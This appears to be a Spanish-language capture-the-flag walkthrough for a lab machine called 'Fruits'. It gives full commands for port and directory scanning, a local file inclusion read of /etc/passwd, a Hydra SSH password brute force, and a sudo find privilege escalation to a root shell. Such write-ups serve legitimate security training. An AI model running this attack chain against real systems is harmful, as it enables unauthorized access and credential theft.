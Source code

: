 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Fruits

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.60
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/imagen (43).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.60
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (44).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.60
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/imagen (45).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos una página de frutas para buscarlas.

<figure><img src="../../.gitbook/assets/imagen (46).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html -t 100
```

<figure><img src="../../.gitbook/assets/imagen (47).png" alt=""><figcaption></figcaption></figure>

Después de realizar una revisión inicial, observamos que al acceder al directorio `/fruits.php`, este aparece en blanco. Esto nos lleva a sospechar que podría tratarse de una vulnerabilidad de inclusión local de archivos (LFI, por sus siglas en inglés). Para confirmar esta hipótesis y explorar posibles parámetros que alteren el comportamiento de la página, decidimos utilizar la herramienta **wfuzz**. El objetivo es identificar parámetros ocultos o no documentados que permitan explotar la vulnerabilidad o arrojar más información sobre el funcionamiento del archivo.

A continuación, ejecutamos **wfuzz** para enumerar parámetros potenciales que puedan estar presentes en la página y desencadenar un comportamiento diferente, lo cual nos ayudará a validar si realmente estamos ante una vulnerabilidad LFI.

```bash
wfuzz -c --hl=1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://192.168.1.60/fruits.php?FUZZ=/etc/passwd
```

<figure><img src="../../.gitbook/assets/imagen (48).png" alt=""><figcaption></figcaption></figure>

Ahora debemos ingresar en el buscador esto:

```bash
http://192.168.1.60/fruits.php?file=/etc/passwd
```

<figure><img src="../../.gitbook/assets/imagen (49).png" alt=""><figcaption></figcaption></figure>

Observamos que el comando **file** nos devuelve un resultado exitoso, revelando el contenido del archivo `/etc/passwd`. Esto nos permite identificar los usuarios del sistema. Entre ellos, destaca el usuario **bananaman**, ya que tiene acceso a la shell `/bin/bash`. Este detalle es relevante, ya que indica que **bananaman** es un usuario con permisos de inicio de sesión en el sistema, lo que podría ser útil para futuras acciones de escalada de privilegios o acceso remoto.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.60
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.60**.

<figure><img src="../../.gitbook/assets/imagen (50).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **bananaman**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh bananaman@192.168.1.60
```

<figure><img src="../../.gitbook/assets/imagen (51).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/imagen (52).png" alt=""><figcaption></figcaption></figure>

Al ejecutar el comando `sudo -l`, observamos que tenemos permisos para ejecutar el comando `find` como el usuario root. Esto indica que podríamos explotar esta configuración para elevar nuestros privilegios. Consultando la web de **GTFOBins**, encontramos que el comando `find` es vulnerable y puede ser utilizado para obtener acceso con privilegios de root.

La secuencia de comandos que nos permite aprovechar esta vulnerabilidad es la siguiente, tomada directamente de [GTFOBins](https://gtfobins.github.io/gtfobins/find/):

```
sudo /usr/bin/find -exec /bin/sh -p \; -quit
```

<figure><img src="../../.gitbook/assets/imagen (53).png" alt=""><figcaption></figcaption></figure>

Hemos finalizado con éxito **todas las etapas del proceso** y cumplido con todos los **requisitos**.&#x20;

¡Buena suerte en tu búsqueda de las **flags**! Recuerda prestar atención a cada detalle, examinar los archivos y servicios detenidamente, y utilizar todas las herramientas a tu alcance para encontrarlas. ¡La clave está en la perseverancia y en no dejar nada sin explorar! ¡Adelante, hacker! 💻🔍🚀
